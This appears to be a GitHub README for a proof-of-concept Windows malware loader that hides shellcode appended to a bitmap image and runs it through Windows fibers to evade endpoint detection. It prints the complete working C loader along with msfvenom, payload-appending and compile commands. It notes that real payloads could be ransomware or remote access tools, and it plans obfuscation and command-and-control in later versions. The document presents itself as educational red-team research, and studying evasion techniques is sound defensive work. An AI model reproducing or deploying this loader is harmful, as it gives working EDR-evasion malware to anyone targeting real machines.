






# 0xC0FFEE42 v1: EDR Evasion Malware with Fiber-Based Execution Paths

##Introduction
0xC0FFEE42 v1 is a proof-of-concept malware loader designed to explore stealthy payload execution through non-traditional Windows APIs. The malware executes shellcode hidden within a bitmap image file (evilCat.bmp), using Windows fibers to bypass conventional thread monitoring by endpoint detection and response (EDR) systems. Instead of advanced steganographic techniques, it employs data appending, a simple method where the payload is appended to the end of the bitmap file. A custom marker (0xC0FFEE42) locates the payload at runtime, ensuring a modular and lightweight execution flow.
As a prototype, 0xC0FFEE42 v1 lacks encryption, obfuscation, or command-and-control (C2) capabilities, focusing on core evasion techniques. Future versions will incorporate anti-analysis measures, encrypted payloads, and dynamic delivery mechanisms. Inspired by CoffeeLoader [1] and malware development techniques [2], this project aims to educate researchers and defenders on unconventional execution methods and their implications for modern security solutions.

## Key Takeaways
0xC0FFEE42 v1 is a proof-of-concept malware loader that executes shellcode hidden in bitmap files, leveraging Windows fibers to reduce detection by EDR tools monitoring standard threading APIs.

The shellcode is appended to the bitmap file, marked by 0xC0FFEE42, enabling dynamic payload retrieval without static offsets.

By avoiding RWX memory mappings and thread creation APIs, the loader minimizes its footprint, though advanced EDRs may detect fiber creation or memory allocation patterns.

The project demonstrates a lightweight, modular approach to payload delivery, suitable for educational and red teaming purposes.

Future versions will enhance stealth and functionality, including obfuscation and C2 integration.

This work underscores the need for defenders to monitor lesser-used APIs like fibers to counter emerging threats.

## Technical Analysis
### 1. File I/O and Shellcode Discovery via Marker
The executable opens a .bmp file using CreateFileA with read-only access. The file is loaded into memory using ReadFile, enabling byte-wise parsing without reliance on the image’s structure.

```c
HANDLE hFile = CreateFileA(IMAGE_PATH, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
```
The critical evasion mechanism begins with locating a hardcoded DWORD marker (0xC0FFEE42), which acts as a precise delimiter between benign content and embedded shellcode:

```c
for (DWORD i = 0; i < fileSize - sizeof(DWORD); i++) {
    if (*(DWORD*)(buffer + i) == SHELLCODE_MARKER) {
        markerOffset = i + sizeof(DWORD);
        break;
    }
}
```
This technique uses data appending, a simple form of payload concealment. Bitmap viewers parse the image normally, ignoring trailing bytes, while the loader extracts the shellcode. Note that the evilCat.bmp file remains on disk post-execution, serving as a potential indicator of compromise (IOC) detectable by file monitoring tools.
### 2. Virtual Memory Allocation and Shellcode Prep
Once the marker offset is identified, the shellcode is copied into memory allocated via VirtualAlloc. The initial protection is PAGE_READWRITE, which is then switched to PAGE_EXECUTE_READ via VirtualProtect.

```c
LPVOID shellcode = VirtualAlloc(NULL, shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
memcpy(shellcode, buffer + markerOffset, shellcodeSize);
VirtualProtect(shellcode, shellcodeSize, PAGE_EXECUTE_READ, &oldProtect);
```

This memory protection shift mimics typical reflective loaders. The separation of write and execute permissions avoids RWX mappings, which are a common red flag for modern EDRs. The shellcode size is computed as fileSize - markerOffset, assuming no trailing data follows the payload.
### 3. Execution via Windows Fibers
The novelty lies in using Windows fibers instead of traditional thread creation (CreateThread, NtCreateThreadEx). The current thread is converted to a fiber context:

```c
LPVOID mainFiber = ConvertThreadToFiber(NULL);
```
A secondary fiber is created with the entry point ShellcodeFiber, which treats the payload as a function pointer:

```c
LPVOID scFiber = CreateFiber(0, (LPFIBER_START_ROUTINE)ShellcodeFiber, shellcode);
SwitchToFiber(scFiber);
```
The fiber entry:
```c
VOID WINAPI ShellcodeFiber(LPVOID lpParameter) {
    ((void(*)())lpParameter)();
}
```
This achieves direct shellcode execution without common thread-related APIs, reducing the likelihood of triggering EDR hooks, though advanced tools may detect fiber creation or memory patterns.
### 4. Resource Cleanup
After execution, memory is freed, and fibers are deleted:

```c
DeleteFiber(scFiber);
free(buffer);
```
This reduces the post-execution memory footprint, though the evilCat.bmp file persists on disk, potentially detectable by forensic analysis.
### Windows Fibers
Windows fibers provide a lesser-known, lightweight approach to user-mode multitasking. They enable a single thread to manage multiple execution contexts, called fibers, which the application can explicitly switch between, bypassing the Windows scheduler’s automatic control. This technique aids in evading EDR systems, as fiber creation and switching are rarely monitored, though advanced tools may detect anomalous memory or behavioral patterns.
## C Code
The following is the complete C code for 0xC0FFEE42 v1. Note that printf statements are included for debugging and would be removed in a production version to enhance stealth.

```c
#include <windows.h>
#include <stdio.h>

#define SHELLCODE_MARKER 0xC0FFEE42
#define IMAGE_PATH "cat.bmp"

// Fiber function signature
VOID WINAPI ShellcodeFiber(LPVOID lpParameter) {
    ((void(*)())lpParameter)();
}

int main() {
    HANDLE hFile = CreateFileA(IMAGE_PATH, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
    if (hFile == INVALID_HANDLE_VALUE) {
        printf("[!] Failed to open image file.\n");
        return -1;
    }

    DWORD fileSize = GetFileSize(hFile, NULL);
    BYTE* buffer = (BYTE*)malloc(fileSize);
    DWORD bytesRead;

    ReadFile(hFile, buffer, fileSize, &bytesRead, NULL);
    CloseHandle(hFile);

    // Find marker
    DWORD markerOffset = 0;
    for (DWORD i = 0; i < fileSize - sizeof(DWORD); i++) {
        if (*(DWORD*)(buffer + i) == SHELLCODE_MARKER) {
            markerOffset = i + sizeof(DWORD);
            break;
        }
    }

    if (markerOffset == 0) {
        printf("[!] Marker not found in image file.\n");
        free(buffer);
        return -1;
    }

    printf("[+] Marker found at offset: 0x%X\n", markerOffset);

    SIZE_T shellcodeSize = fileSize - markerOffset;
    LPVOID shellcode = VirtualAlloc(NULL, shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    memcpy(shellcode, buffer + markerOffset, shellcodeSize);

    DWORD oldProtect;
    VirtualProtect(shellcode, shellcodeSize, PAGE_EXECUTE_READ, &oldProtect);

    LPVOID mainFiber = ConvertThreadToFiber(NULL);
    if (!mainFiber) {
        printf("[!] Failed to convert to fiber: %d\n", GetLastError());
        return -1;
    }

    LPVOID scFiber = CreateFiber(0, (LPFIBER_START_ROUTINE)ShellcodeFiber, shellcode);
    if (!scFiber) {
        printf("[!] Failed to create fiber.\n");
        return -1;
    }

    printf("[+] Executing shellcode via fiber...\n");
    SwitchToFiber(scFiber);

    printf("[+] Execution finished.\n");
    DeleteFiber(scFiber);
    free(buffer);
    return 0;
}

```


## Demo

```bash
msfvenom -p windows/x64/messagebox TEXT="spanked" TITLE="squishy" -f raw -o sc.bin
```
### Generate Marker (0xC0FFEE42)
```bash
printf '\x42\xEE\xFF\xC0' > marker.bin
```

### Append Shellcode to BMP
```bash
cat cat.bmp marker.bin sc.bin > evilCat.bmp
```

### Compile for Windows x64
```bash
x86_64-w64-mingw32-gcc imgFiber.c -o evilCat.exe
```

### Execute on Windows
```bash
.\evilCat.exe
```

## Final
0xC0FFEE42 v1 demonstrates how unconventional techniques—like Windows fibers and data appending payload concealment—can be combined to evade traditional endpoint security mechanisms. While this version serves as a prototype with a test shellcode (message box), real-world payloads could include ransomware or remote access tools. The project highlights the importance of monitoring lesser-used APIs and non-thread-based execution models, which are often overlooked by behavioral defenses.
As detection mechanisms evolve, so must the tactics employed by red team operators and defenders. Future iterations of this loader will expand upon stealth, delivery, and payload execution strategies, moving closer to real-world adversary sophistication. This project is intended for educational, research, and defensive development purposes, contributing to a deeper understanding of how attackers bypass modern protections—and how defenders can better prepare.


#### References
Zscaler, [“CoffeeLoader Malware Analysis,”](https://www.zscaler.com/blogs/security-research/coffeeloader)

cocomelonc, [“Malware Development Trick 45,”](https://cocomelonc.github.io/malware/2023/05/01/malware-tricks-45.html)

Microsoft, [“Windows Fibers Documentation,” ](https://docs.microsoft.com/en-us/windows/win32/procthread/fibers)

